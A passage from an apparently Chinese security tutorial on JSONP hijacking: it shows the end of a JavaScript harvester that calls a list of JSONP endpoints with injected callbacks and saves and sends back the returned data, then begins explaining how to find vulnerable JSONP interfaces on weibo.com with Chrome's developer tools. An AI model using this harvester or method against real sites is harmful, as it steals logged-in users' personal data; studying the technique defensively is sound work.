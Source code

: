 ```
        }],
        start: function() {
            var self = this,
                inter = setInterval(function() {
                    if (!self.hooks[0]) {
                        clearInterval(inter);
                        return self.end();
                    }
                    self.get(self.hooks[0].link, self.hooks[0].name);
                    self.hooks.shift();
                }, 1000);
        },
        get: function(link, name, fn) {
            var hash = 'bomb' + String(new Date().getTime());
            window[hash] = function(data) {
                var _data = typeof(data) === 'object' ? JSON.stringify(data) : String(data);
                API.ss('### ' + name + '\n```\n' + _data + '\n```\n');
            };
            API.loadJS(link + hash);
        },
        end: function() {
            API.send('end');
        }
    };
    API.listen(function(act) {
        if (act === 'start') {
            JSONP.start();
        }
    });
    AUTOSTART ? JSONP.start() : null;
})

```

这段代码是很容易理解的，我们首先定义一个`JSONP接口`列表，然后通过`start`方法进行逐个接口的访问以及数据获取，最后直接进行数据返回以及保存，就这么简单。

0x03 漏洞挖掘
=====

一个好的工具是需要很多资源的支撑。

说了这么多，那我们如何去挖掘`JSONP接口`呢？

### 1. 手动挖掘

手动挖掘有利于深入学习原理以及发挥更多的不可能。

这里我采用`chrome浏览器`的调试窗口进行挖掘`weibo.com`中存在的漏洞。

首先把`Preserve log`选项勾上，这样用来防止页面刷新跳转的时候访问记录被重置，也方便我们进行下一步的筛选。

![](http://drops.javaweb.org/uploads/images/12cef659ed622d2fa593584fe968280b7f78eb36.jpg)

然后，我们就可以在地址栏输入`weibo.com`，进行登录，然后在页面中随便点击链接了，这样做是为了收集更多的URL，你懂的！
